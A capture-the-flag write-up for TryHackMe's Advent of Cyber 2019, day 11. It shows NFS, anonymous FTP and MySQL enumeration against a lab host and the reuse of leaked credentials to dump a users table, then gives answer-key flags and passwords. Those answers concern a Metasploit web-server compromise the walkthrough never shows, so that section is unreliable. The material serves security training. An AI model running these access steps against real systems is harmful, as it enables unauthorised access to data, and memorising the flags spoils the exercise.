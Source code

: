 # This is the Write Up for day 11 challenge of Advent of Cyber 2K19 CTF.

> Pratyush Prakhar (5#1NC#4N) - 12/11/2019

## Description

McSkidy has been happy with the progress they've been making, but there's still so much to do. One of their main servers has some integral services running, but they can't access these services. Did the Christmas Monster lock them out? 

`This challenge is all about your knowledge service enumeration and pentesting.`

## Solution

1. Let's do service scans --> [All ports scan](https://github.com/pratty010/CTF/blob/master/THM%20CTF/Advent%20of%20Cyber/2K19/day_11/rustscan/all.nmap) and [Main Scan](https://github.com/pratty010/CTF/blob/master/THM%20CTF/Advent%20of%20Cyber/2K19/day_11/rustscan/main.nmap).

2. We find certain interesting services open on the IP. Let's look into them one by one.
    1. _Port 111, 2049_ - **NFS --> Network File System** - a distributed file system protocol that allows a user on a client computer to access files over a network as if they were stored locally on the client's own hard drive. We can locally mount if any open folders/files are exposed or shared to get some information.
    2. _Port 21_ - **FTP --> File Transfer Protocol** - Anonymous login allowed. Can we interesting.
    3. _Port 3306_ - **MySQL** - Maybe some way to access the database (mostly containing important information) appears.

3. NFS
    1. `showmount` found `/opt/files` folder shared with all.
    2. `mounted` the folder locally to enumerate.
    3. Found some useful information in the [creds.txt](https://github.com/pratty010/CTF/blob/master/THM%20CTF/Advent%20of%20Cyber/2K19/day_11/nfs/files/creds.txt) file that might come in handy.

```bash
└─$ ls
files
                                                                                                                                                        
└─$ showmount -e 10.10.82.14                              
Export list for 10.10.82.14:
/opt/files *
                                                                                                                                                          
└─$ sudo mount -t nfs 10.10.82.14:/opt/files ./files -o nolock
[sudo] password for kali: 
                                                                                                                                                          
└─$ cd files 
                                                                                                                                                          
└─$ ls -la
total 8
drwxrwxrwx 2 kali kali   23 Dec 10  2019 .
drwxr-xr-x 3 kali kali 4096 Nov 14 22:01 ..
-rwxrwxrwx 1 kali kali   34 Dec 10  2019 creds.txt
                                                                                                                                                
└─$  cat creds.txt 
the password is securepassword123
                                                                                                                                                          
└─$ cd ..                                                    
                                                                                                                                                          
└─$ sudo umount files 
```

4. FTP
    1. Logged in the ftp with `anonymous` login.
    2. Found interesting files called [file.txt](https://github.com/pratty010/CTF/blob/master/THM%20CTF/Advent%20of%20Cyber/2K19/day_11/ftp/file.txt) and [welcome.msg](https://github.com/pratty010/CTF/blob/master/THM%20CTF/Advent%20of%20Cyber/2K19/day_11/ftp/welcome.msg) in the root directory.
    3. Rest folder seems to be empty.
    4. The files provided us the path to the SQL database.

```bash
└─$ ftp 10.10.82.14                                                                                                              
Connected to 10.10.82.14.
220 (vsFTPd 3.0.2)
Name (10.10.82.14:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||65535|).
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0              39 Dec 10  2019 file.txt
drwxr-xr-x    2 0        0               6 Nov 04  2019 pub
d-wx-wx--x    2 14       50              6 Nov 04  2019 uploads
-rw-r--r--    1 0        0             224 Nov 04  2019 welcome.msg
226 Directory send OK.
ftp> get file.txt
local: file.txt remote: file.txt
229 Entering Extended Passive Mode (|||65535|).
150 Opening BINARY mode data connection for file.txt (39 bytes).
100% |*********************************************************************************************************************************************************************|    39      865.58 KiB/s    00:00 ETA
226 Transfer complete.
39 bytes received in 00:00 (0.21 KiB/s)
ftp> get uploads
local: uploads remote: uploads
229 Entering Extended Passive Mode (|||65535|).
550 Failed to open file.
ftp> get welcome.msg
local: welcome.msg remote: welcome.msg
229 Entering Extended Passive Mode (|||65535|).
150 Opening BINARY mode data connection for welcome.msg (224 bytes).
100% |*********************************************************************************************************************************************************************|   224        4.61 KiB/s    00:00 ETA
226 Transfer complete.
224 bytes received in 00:00 (1.06 KiB/s)
ftp> cd pub
250 Directory successfully changed.
226 Directory send OK.
ftp> ls -la
229 Entering Extended Passive Mode (|||65535|).
150 Here comes the directory listing.
drwxr-xr-x    2 0        0               6 Nov 04  2019 .
drwxr-xr-x    4 0        0              67 Dec 10  2019 ..
226 Directory send OK.
ftp> cd ../uploads
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||65535|).
150 Here comes the directory listing.
226 Transfer done (but failed to open directory).
ftp> 
```

5. MySQL
    1. Get into the remote hosted DB with the creds found.
    2. We enumerate teh available databases. `data` seems odd. Let's look into it. 
    3. On reading the available `USERS` table, we get a set of [credentials](https://github.com/pratty010/CTF/blob/master/THM%20CTF/Advent%20of%20Cyber/2K19/day_11/sql/data/users.txt).

```bash
└─$ mysql -u root -p -h 10.10.82.14
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 16
Server version: 5.7.28 MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> \h

General information about MariaDB can be found at
http://mariadb.org

List of all client commands:
Note that all text commands must be first on line and end with ';'
?         (\?) Synonym for `help'.
clear     (\c) Clear the current input statement.
connect   (\r) Reconnect to the server. Optional arguments are db and host.
delimiter (\d) Set statement delimiter.
edit      (\e) Edit command with $EDITOR.
ego       (\G) Send command to MariaDB server, display result vertically.
exit      (\q) Exit mysql. Same as quit.
go        (\g) Send command to MariaDB server.
help      (\h) Display this help.
nopager   (\n) Disable pager, print to stdout.
notee     (\t) Don't write into outfile.
pager     (\P) Set PAGER [to_pager]. Print the query results via PAGER.
print     (\p) Print current command.
prompt    (\R) Change your mysql prompt.
quit      (\q) Quit mysql.
rehash    (\#) Rebuild completion hash.
source    (\.) Execute an SQL script file. Takes a file name as an argument.
status    (\s) Get status information from the server.
system    (\!) Execute a system shell command.
tee       (\T) Set outfile [to_outfile]. Append everything into given outfile.
use       (\u) Use another database. Takes database name as argument.
charset   (\C) Switch to another charset. Might be needed for processing binlog with multi-byte charsets.
warnings  (\W) Show warnings after every statement.
nowarning (\w) Don't show warnings after every statement.

For server side help, type 'help contents'

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| data               |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.180 sec)

MySQL [(none)]> use data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| USERS          |
+----------------+
1 row in set (0.160 sec)

MySQL [data]> SELECT * FROM USERS;
+-------+--------------+
| name  | password     |
+-------+--------------+
| admin | bestpassword |
+-------+--------------+
1 row in set (0.183 sec)
```

## Brownie Points

1. Compromise the web server using Metasploit. What is flag1? - **THM{3ad96bb13ec963a5ca4cb99302b37e12}**.

2. Now you've compromised the web server, get onto the main system. What is Santa's SSH password?- **rudolphrednosedreindeer**.

3. Who is on line 148 of the naughty list? - **Melisa Vanhoose**.

4. Who is on line 52 of the nice list? - **Lindsey Gaffney**


## Extra Treats.

1. Look into the other open services found. Have fun.





